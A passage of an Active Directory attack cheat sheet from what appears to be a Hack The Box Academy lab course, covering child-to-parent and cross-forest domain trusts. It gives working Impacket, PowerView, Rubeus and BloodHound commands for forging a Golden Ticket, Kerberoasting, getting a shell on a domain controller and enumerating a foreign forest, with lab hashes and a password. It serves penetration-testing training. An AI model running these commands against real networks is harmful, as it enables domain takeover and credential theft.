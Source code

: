 | `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 \| grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a `Golden Ticket` from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache`                            | Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |



# Trust Relationships - Cross-Forest 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |
| ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json`                             | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |
